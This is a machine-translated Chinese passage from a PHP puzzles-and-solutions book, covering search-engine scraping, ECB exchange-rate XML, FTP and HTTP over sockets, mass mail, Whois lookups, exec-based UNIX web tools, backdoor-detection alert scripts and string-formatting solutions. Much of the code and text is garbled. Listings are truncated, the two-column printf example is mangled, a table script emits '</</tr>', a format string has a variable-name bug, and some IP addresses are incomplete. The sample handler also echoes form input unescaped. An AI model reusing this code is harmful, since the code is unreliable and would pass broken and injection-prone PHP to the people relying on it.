

图 I.8.4 搜索项目列表

加载该 URL 页面，并如图 I.8.3 所示从结果中提取所有 URL。同样，提取返回项目的标题并如图 I.8.4 所示创建超链接列表。

当使用微软网络（MSN）搜索系统搜索单词“Apache”时，生成以下 URL：

```
http://search.msn.com/results.aspx?q=Apache&FORM=MSNH&sr_type=0
```



图 I.8.5 从 MSN 搜索提取的 URL

### I.8.5. 从 AltaVista 链接



图 I.8.6 搜索项目列表

加载该 URL 页面，并如图 I.8.5 所示从结果页面中提取所有 URL。同样，提取返回项目的标题并如图 I.8.6 所示创建超链接列表。

当使用 AltaVista 搜索系统搜索词“regular expression”（正则表达式）时，生成以下 URL：

```
http://www.altavista.com/web/results?itag=ody&q=regular-expression&kgs=0&cls=0
```



图 I.8.7 从 AltaVista 搜索提取的 URL

### I.8.6. 从 XML 文件提取汇率

除了常规 HTML 页面外，RSS 格式在互联网上非常流行。新闻、目录、论坛消息和其他经常变化的信息存储在 XML 文件中。XML 文件很容易加载和解析，因为它们的结构不像 HTML 页面。许多网站以 XML 格式提供信息，使得其他网站所有者爬虫能够以比 HTML 页面更方便的格式获取信息。

作为获取此类信息的示例，查询相对于欧元的当前货币汇率。该信息的来源将是欧洲中央银行网站，列表 `http://www.ecb.eu/stats/euroxfref/euroxfref-daily.xml` 显示了该 XML 文件的内容。

# 74 第一部分：谜题

列表 1.8.1. euroxfref-daily.xml 文件的内容

```xml
<xml version="1.0" encoding="UTF-8"?>
<gesmes:Envelope xmlns:gesmes="http://www.gesmes.org/xml/2002-08-01" xmlns="http://www.ecb.int/euroxfref/2002-08-01">
  <gesmes:subject>Reference rates</gesmes:subject>
  <gesmes:Sender>
    <gesmes:name>European Central Bank</gesmes:name>
  </gesmes:Sender>
  <Cube time="2006-01-20">
    <Cube currency="USD" rate="1.2068"/>
    <Cube currency="JPY" rate="139.15"/>
    <Cube currency="CYP" rate="0.5738"/>
    <Cube currency="CZK" rate="28.605"/>
    <Cube currency="DKK" rate="7.4624"/>
    <Cube currency="EEK" rate="15.666"/>
    <Cube currency="GBP" rate="0.68525"/>
    <Cube currency="HUF" rate="250.60"/>
    <Cube currency="LTL" rate="3.4528"/>
    <Cube currency="LV" rate="0.6960"/>
    <Cube currency="MTL" rate="0.4293"/>
    <Cube currency="PLN" rate="3.8381"/>
    <Cube currency="SEK" rate="9.3035"/>
    <Cube currency="SIT" rate="2.3947"/>
    <Cube currency="SKK" rate="37.475"/>
    <Cube currency="CHF" rate="1.5512"/>
    <Cube currency="ISK" rate="74.41"/>
    <Cube currency="NOK" rate="8.0845"/>
    <Cube currency="BGN" rate="1.9558"/>
    <Cube currency="HRK" rate="7.3835"/>
    <Cube currency="RON" rate="3.6442"/>
    <Cube currency="RUB" rate="34.1510"/>
    <Cube currency="TRY" rate="1.6130"/>
    <Cube currency="AUD" rate="1.6129"/>
    <Cube currency="CAD" rate="1.4030"/>
    <Cube currency="CNY" rate="9.7326"/>
    <Cube currency="HKD" rate="9.3595"/>
  </Cube>
</gesmes:Envelope>
```

# 第 1.8 章：使用其他网站的信息 75

```xml
<Cube currency="IDR" rate="11386.16"/>
<Cube currency="KRW" rate="1190.75"/>
<Cube currency="MYR" rate="4.5195"/>
<Cube currency="NZD" rate="1.7760"/>
<Cube currency="PHP" rate="63.900"/>
<Cube currency="SGD" rate="1.9646"/>
<Cube currency="THB" rate="47.248"/>
<Cube currency="ZAR" rate="7.2537"/>
```

`<Cube time='2006-01-20'>` 标签指定了 XML 文件中信息的所属日期。`<Cube currency='CCC' rate='X.XXXX'>` 标签提供了特定货币相对于欧元的汇率。这里，CCC 代表三个字母的货币缩写（例如，USD 代表美元，JPY 代表日元），X.XXXX 是汇率。编写一个脚本来下载该 XML 文件，并显示欧元兑美元的当前汇率。如列表 I.8.1 所示，在 2006 年 1 月 20 日，1.00 欧元等于 1.2068 美元。

## I.8.7. 确定汇率历史

除了货币汇率信息外，欧洲中央银行网站还提供了自 1999 年以来的货币汇率历史信息。这些信息以 2 MB XML 文件的形式提供，可以从 `http://www.ecb.int/stats/euroxfref/euroxfref-hist.xml` 下载。

编写一个脚本，从当前日期起下载 1 个月的欧元兑美元汇率历史，然后将其以表格（图 I.8.9）和柱状图（图 I.8.0）的形式显示。

请记住，周末和节不进行交易，因此该月的引用次数将少于相应期间的天数。


# 76 第一部分：谜题



图 1.8.9。欧元兑美元的历史表



图 1.8.10。欧元兑美元的柱状图

带有汇率历史的 `euroxfref-hist.xml` 文件可以在随附 CD-ROM 的 `/scripts/` 目录下找到。

# 第 1.9 章：文件传输协议


文件传输协议（FTP）是最老的应用之一。它最早开发于 1971 年，远在 Web 出现之前。直到 20 世纪 90 年代初，FTP 还负责一半的网络流量。该协议今天仍用于发布软件和访问主机。本章将如何开发一个 HTTP 应用，用于从另一个远程或运行 Apache 的本地机器访问远程服务器。

FTP 定义在请求注释（RFC）959 中，地址为 `http://www.rfc-editor.org/rfc59`。本章示例可以在随附 CD-ROM 的 `/scripts/` 目录下找到。

## I.9.1. 确定操作系统

编写一个脚本，建立连接并确定操作系统。

## I.9.2. 列出文件

编写一个脚本，列出目录下的文件。

## I.9.3. 上传和下载文件

编写一个脚本，上传并下载文件。

## I.9.4. 更改权限

编写一个脚本，更改权限。

# 第10 章：超文本传输协议


HTTP 用于传输 HTML 页面和数据，它是主要的 Web 应用。该协议定义在 RFC 2616 中。了解其特性可以绕过某些防御。本章示例可以在随附 CD-ROM 的 `/10` 目录下找到。

## I.10.1. 下载页面

使用 sockets 下载 `http://www.php.net` 的首页（图 I.10.1）。

# 80 第一部分：谜题



## I.10.2. 从服务器获取 HTTP 头部

在处理远程主机数据时，整个主体（HTML 页面或文件）通常不需要接收。需要的是 HTTP 头部，它们包含了服务器的信息（设置 Cookie、会话等）。编写一个 PHP 脚本从服务器获取头部。

## I.10.3. 确定文件大小

一个常见的 Web 任务是确定远程文件的大小。编写一个函数，仅使用 HTTP 头部确定文件大小。

## I.10.4. 使用 POST 方法发送数据

假设你有一个简单的 HTML 表单，包含一个文本字段、一个密码字段和一个发送按钮（列表 I.10.1）。

列表 I.10.1。HTML 表单

```html
<form method="post">
名称：<input type="text" name="name"><br>
密码：<input type="text" name="pass"><br>
<input type="submit" name="send" value="发送">
</form>
```

当点击发送按钮时，文本字段中的数据通过 POST 方法发送到 `handler.php` 文件（列表 I.10.2）。


列表 I.10.2。`handler.php` 文件

```php
<?php
echo "名称 - " . $_POST['name'] . "<br>";
echo "密码 - " . $_POST['pass'] . "<br>";
?>
```

使用 `sockets` 直接将 POST 数据传递给 `handler.php` 文件，绕过 HTML 表单。

# 第11 章：电子邮箱



电子邮箱（简称 email）是现代互联网不可或缺的一部分。因此，良好的电子邮件操作知识对于任何 Web 开发人员来说都是必须的。

> 注意：本章的所有示例可以在随附 CD-ROM 的 `/scripts/11` 目录下找到。

## I.11.1. 从站点发送电子邮件

编写一个脚本，从站点发送 HTML ASCII 编码的电子邮件。当前时间和发送脚本的大小必须在邮件正文中发送。

## I.11.2. 发送带附件的电子邮件

编写一个脚本，从站点发送电子邮件并允许为任何消息添加附件。

# 第 1.1 章：密码分析谜

## I.11.3. 批量邮件发送

开发一个用于批量邮件的脚本。使用列表 I.11.1 所示的文件作为地址数据库。

### 列表 I.11.1. 地址数据库

```
somebody@mail.com
somebody@somewhere.com
somebody@yahoo.com
```

## I.11.4. 防止批量邮件发送

尽管存在合法的批量邮件发送，但垃圾邮件是批量邮件发送的一种形式，其合法性（至少是道德性）非常可疑。开发一个脚本，防止用户在 5 分钟内发送超过一条消息。在发送另一封邮件之前必须等待 5 分钟，这将使邮件服务对垃圾邮件发送者失去吸引力。大多数合法用户不会受到这种反垃圾邮件保护措施的干扰。

## I.11.5. 使用 SMTP 中继发送邮件

服务器不需要安装邮件服务器即可允许用户发送电子邮件。可以使用远程邮件中继来实现这一点。开发一个使用如 Yandex (`mx2.yandex.ru`) 等远程中继发送邮件的脚本。

## I.11.6. 确定邮件中继地址

开发一个通过电子邮件地址确定邮件中继地址的脚本。

# 第 I.12 章：Whois 服务


Whois 是一项官方服务，提供有关当前注册域名、支持 IP 地址的域名系统 (`DNS`) 服务器以及 IP 地址所有者的公共信息。通过该服务的帮助，还可以确定特定 IP 地址的地理位置。不同的 Whois 服务负责不同的覆盖区域。因此，主要的 Whois 服务是美国互联网数字注册机构 (`ARIN`) (`http://whois.arin.net`)，而欧洲 IP 网络中心 (`RIPE Center`) (`http://www.ripe.net`) 负责欧洲互联网覆盖区域。

> 注意 本章中的所有示例都可以在附带 CD-ROM 的 `/scripts/12` 目录下找到。

## I.12.1. 确定美国 IP 地址的所有权

连接到 `ARIN` Whois 服务的 43 端口，并确定列表 I.12.1 所示 IP 地址的所有权。

### 列表 I.12.1. 美国 IP 地址

65.54.188.74

66.102.9.99

198.133.219.25

## I.12.2. 确定欧洲 IP 地址的所有权

通常，必要的 IP 地址不在主 Whois 服务（在本例中由 `ARIN` 运行）的覆盖区域内，而是由某个区域性 Whois 服务覆盖。主数据库服务会返回一个指向拥有该特定 IP 地址信息的区域服务的链接。例如，当使用 `ARIN` Whois 服务查询 IP 地址 `213.136.52.29`（对应 `http://www.mysql.com`）时，回复可能如图 I.12.1 所示。

如图 I.12.1 所示，如果 IP 位于给定的 Whois 服务的覆盖区域之外，该服务在 `ReferralServer` 字段中提供可以处理此请求的区域 Whois 服务地址。在这种情况下，该服务是 `RIPE` Whois。



图 I.12.1. Whois 服务对其覆盖区域外地址请求的回应

连接到 `RIPE` Whois 服务的 43 端口，并确定列表 I.12.2 所示 IP 地址的所有权。

### 列表 I.12.2. 欧洲 IP 地址

```
194.67.57.26
213.180.204.11
81.19.70.3
62.76.14
```

## I.12.3. 重定向服务器

开发一个从 `ARIN` 自动跟踪重定向服务器的脚本。

## I.12.4. 从域名确定 IP 地址

Whois 服务使用域名提供关于该 IP 地址的详细信息。开发者通常处理域名而非 IP 地址。创建一个针对该 IP 地址的脚本 应用程序。

## I.12.5. 从 IP 地址确定域名

在不使用 Whois 服务的情况下，确定列表 I.12.3 所示的域名。

### 列表 I.12.3. IP 地址

```
81.19.69.28
81.211.104.10
82.146.48.158
207.142.136
```

## I.12.6. 域名是否被占用？

开发一个判断特定域名是否被占用的脚本。

# 第 I13 章：UNIX


`UNIX` 是互联网的基石，因为绝大多数服务器运行在其之上。在 PHP 中，可以使用以下命令执行：`exec()`、`system()` 和 `passthru()`。（为了方便统称为 `exec`）。

## I13.1. Ping 工具

为 `ping` 工具创建一个 Web 接口。

## I13.2. 文件 inode

`UNIX` 为每个文件分配一个唯一的数字，称为 `inode`。创建一个根据名称返回 `inode` 的脚本。

## I13.3. 权限

开发一个更改文件权限的 Web 接口。

## I13.4. 归档

开发一个将目录打包成 `.tar.gz` 归档的脚本，以及一个解包 `.tar.gz` 的脚本。

# 第14 章：警示脚本


所有 PHP 开发者都尽全力保护自己的工作。然而，防御方投入的保护精力远大于攻击者。因此，安装对系统异常做出反应的警示脚本是一个好主意。开发这些脚本是本章的主题。

## I14.1. 监控远程链接

开发一个监控远程链接存在的脚本。检查必须严格按照计划，即在指定时间进行。脚本必须将链接的状态记录在名为 `link.log` 的日志文件中。如果链接缺失，脚本将通过发送电子邮件来通知你。

## I14.2. 验证链接有效性

开发一个在设定时间执行的脚本，从文件中读取 URL 列表并验证这些 URL 的有效性。该脚本可以维护 URL 数据库。

## I14.3. 监控新文件

网站被入侵的迹象之一是文件系统中出现了新文件。有些网站具有许多分支的结构，其中许多节点多年未被 Web 开发者检查。恶意分子可以轻松在这些节点中隐藏脚本，只需花费少量精力进行伪装。检测此类后门或其他恶意软件的一种方法是在虚拟主机的文件系统中搜索最近创建或修改的文件。

## I14.4. 监控大文件

上一节描述的防御并不完美，因为文件的创建和修改日期可以伪造。尽管如此，仍然可以检测异常脚本。通常攻击者使用所谓的 PHP Shell：用于导航虚拟主机并执行 SQL 指令的脚本。此类脚本通常为 80-100 KB，而常规脚本很少超过 20 KB。开发一个搜索虚拟主机上大于 50 KB 文件的脚本。

# 第 I.15 章：杂项


在本章中收集了不属于之前任何章节的杂项问题。

> 注意：本章中的所有示例可以在随附 CD-ROM 的 `/scripts/15` 目录下找到。

## I.15.1. 交换变量位置

假设有两个数值变量：`$x = 4` 和 `$y = 5`。编写一个脚本，在不使用任何临时变量的情况下交换变量的值：只能使用 `$x` 和 `$y` 变量。

## I.15.2. 页面预加载脚本

随着互联网访问速度的提高，网站访问者对页面加载变得越来越不耐烦。如果用户必须为此等待（平均时间超过10秒），他们就会直接离开。然而，某些页面在显示之前需要长时间的计算，例如数据库查询或复杂的离散微积分问题。在这种情况下，瓶颈不是通道带宽，而是服务器的计算能力。为了防止访问者离开资源，通常只需礼貌地告知他们，其请求需要大量的计算并将花费时间。按照规律，用户心里在想什么是未知的，他们不会等待 15–20 秒。

列表 I.15.1 显示了一个模拟长时间计算的脚本。

### 列表 I.15.1. 使用 `sleep()` 函数模拟长时间计算

```php
<?php
// 模拟长时间计算
sleep(5); // 单位为秒
echo "长时间计算过程的结果。";
?>
```

编写一个脚本，在运行列表 I.15.1 中的脚本之前，通知用户生成结果需要时间。

## I.15.3. 模拟 Tar 工具

第 13.4 节考虑了对 Tar 和 Gzip 工具的使用。然而，Tar 工具在 Windows 系统中很少是直接直接可用的。编写一个模拟 Tar 工具的脚本，即将多个文件合并为一个大文件，并进行反向转换以解包文件。

> 注意：存档目录中的所有文件都是文本文件。脚本生成的存档不需要与 Tar 工具兼容。

## I.15.4. 数据缓冲

页面在浏览器中显示后通常需要进行修改。原因可能是现有代码被修改了，或者发现的单词需要从文本中设置。列表 I.15.2 显示了一个生成随机数字序列的脚本。

### 列表 I.15.2. 生成随机序列

脚本操作的结果如图 I.15.1 所示。修改列表 I.15.2 中的脚本，将输出中的所有数字设置为**粗体**。



图 I.15.1. 随机数字序列


# 第 II.1 章：字符串


### II.1.1. 列出目录中的文件

PHP 提供了一种特殊的引号，称为反引号（``）。如果系统命令被包含在反引号中，PHP 会尝试将其作为 shell 命令执行。在列表 II.1.1 所示的程序中，`dir` 内置命令被执行，因为它被包含在反引号中。

> `dir` 命令可以接受目录的全限定路径和相对路径作为参数。如果未指定参数，命令将输出当前目录的内容。

### 列表 II.1.1. 使用反引号运算符执行 `dir` 命令

```php
<?php
echo "<pre>";
echo htmlspecialchars(`dir`);
```

由于命令输出的格式是为命令行设计的，Windows 系统函数以 cp866 编码输出其结果，因为在默认情况下，命令行使用这种编码是为了与旧版本的控制台应用程序向后兼容。在 Windows XP 中，可以使用 `chcp` 命令更改编码。如果在不带任何参数的情况下调用此命令，它将返回当前代码页（列表 II.1.2）。

### 列表 II.1.2. 显示当前编码

```php
<?php
echo `chcp`;
?>
```

根据列表 II.1.2 所示脚本的操作结果，浏览器显示如下：当前代码页：866。如果你将代码页名称传递给 `chcp` 命令，它会将当前代码页更改为指定的页。因此，列表 II.1.1 中的程序可以重写为列表 II.1.3 所示。

### 列表 II.1.3. 使用 `chcp` 系统命令更改代码页

```php
<?php
echo "<pre>";
```

## 第 II.1 章：字符串



图 II.1.1. `dir` 命令输出

无论运行哪个脚本（列表 II.1.1 或 II.1.3），结果将如图 II.1.1 所示。从图 II.1.1 可以看出，`dir` 命令输出包含了大量信息，例如大小和创建时间。因此，更好的方法是考虑输出文件的数量：

95 个文件 702 字节

27 个目录 340 字节

因此，为了解决这个问题，编写了列表 II.1.4 中的脚本。

### II.1.4. 分析 `dir` 命令输出并列出文件

```php
<?php
// 将 dir 命令的输出加载到变量 $content
$content = `dir`;

// 将 $content 字符串拆分为子字符串
// 分隔符是换行符 \n
$arr = explode("\n", $content);

// 遍历数组输出
foreach($arr as $line)
{
    // 仅处理包含 <DIR> 序列的字符串
    if(!strpos($line, "<DIR>"))
    {
        // 使用正则表达式搜索字符串
```

列表 II.1.4 的解决方案在 Linux 操作系统的变体仅在于用于输出文件的命令。在这种情况下，需要使用 `ls -al` 来代替 `dir` 命令。

## II.1.2. 右对齐

对齐最合适的方法是使用 `printf()` 函数，它允许你对字符串进行格式化。

### 列表 II.1.5. 右对齐文件名

```php
<?php
$filename = array("all.php", "auth.php", "auth.txt", "base.txt", "chat.html", "config.php", "count.txt", "count_new.txt", "counter.dat", "counter.php", "create.php", "dat.db");

// 遍历数组并发现
// 最长文件名的长度
$max_length = 0;
foreach($filename as $name) {
    $length = strlen($name);
    if($length > $max_length) $max_length = $length;
}
// 输出文件名，并沿右边界对齐
echo "<pre>";
foreach($filename as $name) printf("%$max_lengths\n", $name);
echo "</pre>";?>
```

在第一个循环中，脚本找到了最长文件名的字符数。

## II.1.3. 左右边界对齐

左右对齐通过使用 `printf()` 函数解决。与之前的解决方案不同，`filename` 数组的内容被分为输出列数的两部分。执行此任务的脚本在列表 II.1.6 所示。

### 列表 II.1.6. 分两列输出 `$filename` 数组内容的脚本

```php
$total = count($filename);
// 计算第一列中的元素个数
$half = $total/2;
```

```php
// 遍历数组并找到
// 第一列中最长文件名
// 的字符数
$max_length_first = 0;
for($i = 0; $i < $half; $i++) {

  $length = strlen($filename[$i]);
  if($length > $max_length_first) $max_length_first = $length;
}
```

```php
// 遍历数组并找到
// 第二列中最长文件名
// 的字符数
$max_length_second = 0;
for($i = $half; $i < $total; $i++) {

  $length = strlen($filename[$i]);
  if($length > $max_length_second) $max_length_second = $length;
}
```

```php
// 循环形成字符串并
// 输出到浏览器窗口中。
echo "<pre>";
for($i = 0; $i < $half; $i++) {

  printf($filename[$i], "\n    $max_length_first - strlen($filename[$i])\n    %s($max_length_second)s\n    $filename[$half + $i]);");
}
echo "</pre>";
```

该脚本计算了第一列中最长字符串的长度 (`$max_length_first`) 以及第二列中最长字符串的最高长度 (`$max_length_second`)。最后一个 `for` 循环将字符串输出到浏览器窗口。第一列使用 `$str_repeat()` 函数用空白字符填充到 `$max_length_first` 长度。第二列根据第 II.1.2 节中考虑的方法进行输出。

# 第二部分：解决方案

## II.1.4. 输出三列数据

为了按照图 I.1.3 所示的变体输出表格，需要实现一个计数器 (`$counter`)，该计数器在达到定义值后重置为零。当计数器值设置为零时，输出 `<tr>` 标签（列表 II.1.7）。在计数器重置为零的那个刻刻，输出字符串 `</tr>`。

II.1.7. 输出三列表格的脚本的第一种变体


```php
<?php
$filename = array("all.php", "auth.php",
    "auth.txt", "base.txt",
    "chat.html", "config.php",
    "count.txt", "count_new.txt",
    "counter.dat", "counter.php",
    "create.php", "dat.db");

// 计算数组中的元素个数
$total = count($filename);
// 表格的列数
$numcols = 3;
$counter = 0;

echo "<table border = 1>";
for($i = 0; $i < $total; $i++) {
    if($counter == 0) echo "<tr>";
    if ($counter == $numcols) {
        echo "</</tr>";
        $counter = 0;
    }
    echo "<td>".$filename[$i]."</td>";
    $counter++;
}
echo "</table>";
?>
```

要实现图 I.1.4 所示的变体，仅使用单个 `$filename` 数组是困难的。为了解决这个问题，最方便的方法是组织一个中间二维数组（列表 II.1.8）。

### 列表 II.1.8. 输出三列表格的第二种变体

```php
<?php
$filename = array("all.php", "auth.php",
"auth.txt", "base.txt",
"chat.html", "config.php",
"count.txt", "count_new.txt",
"counter.dat", "counter.php",
"create.php", "dat.db");

// 计算数组中的元素个数
$total = count($filename);
// 表格的列数
$numcols = 3;

// 计算字符串的个数
$number = (int)($total/$numcols);
if((float)($total/$numcols) != $number) $number++;

// 构建一个中间二维数组
for($i = 0; $i < $number; $i++) {
  for($j = 0; $j < $numcols; $j++) {
    $arr[$i][$j] = $filename[$j*$number + $i];
  }
}

// 输出表格
echo "<table border = 1>";
for($i = 0; $i < $number; $i++) {
  echo "<tr>";
  for($j = 0; $j < $numcols; $j++) {
    echo "<td>$arr[$i][$j]</td>";
  }
  echo "</tr>";
}
echo "</table>";
?>
```

列表 II.1.7 和 II.1.8 中提出的变体可以扩展到输出表格中的任意列数。要实现这一点，只需更改 `$numcols` 变量的值即可。

## II.1.5. 从页面到页面传递数组

使用 `include` 指令将一个数组从 `first.php` 文件传递到 `second.php` 文件的脚本位于 II.1.9 中。

```php
<?php
// 包含数组
$filename = include "first.php";
// 输出数组
foreach($filename as $value) echo "$value<br>";
?>
```

这种传递数组的方法总是可以的。在 `first.php` 中传递数组的方法有两种指令：`include` 和 `require`。如果文件不存在，`require` 指令会终止。

## II.1.6. 使用 GET 方法传递数组

要使用 GET 方法传递数组，需要形成查询字符串，例如：`mysite/second.php?filename[]=`.

```php
$filename = array("all.php", "auth.php",
"auth.txt", "base.txt",
"chat.html", "config.php",
"count.txt", "count_new.txt",
"counter.dat", "counter.php",
"create.php", "dat.db");

// 将元素连接成字符串
$url = implode("&filename[]=", $filename);
$url = "second.php?" . $url;
echo "<a href=\"$url\">跳转到 second.php</a>";
```
然而，在 `second.php` 中获取数组需要赋值：

`$filename = $_GET['filename'];`

此外，由于 Web 服务器对地址字符串限制为 8 KB，因此无法通过 GET 方法传递大量数据。

## II.1.7. 使用 POST 方法传递数组

使用 POST 方法传递数据有两种：

- 直接通过 socket
- 通过 HTML 表单

关于 socket 将将在其他详细介绍。本节重点关注通过 HTML 表单传递数据。为了实现此目的，需要在 `first.php` 中动态创建一个表单。该 HTML 表单必须包含与 `$filename` 数组元素数量相同的隐藏字段。此外，表单将包含一个发送数据到 `second.php` 的按钮（列表 II.1.13）。

### 列表 II.1.13. 使用 POST 方法发送数据的 HTML 表单

```php
<?php
$filename = array("all.php", "auth.php",
"auth.txt", "base.txt",
"chat.html", "config.php",
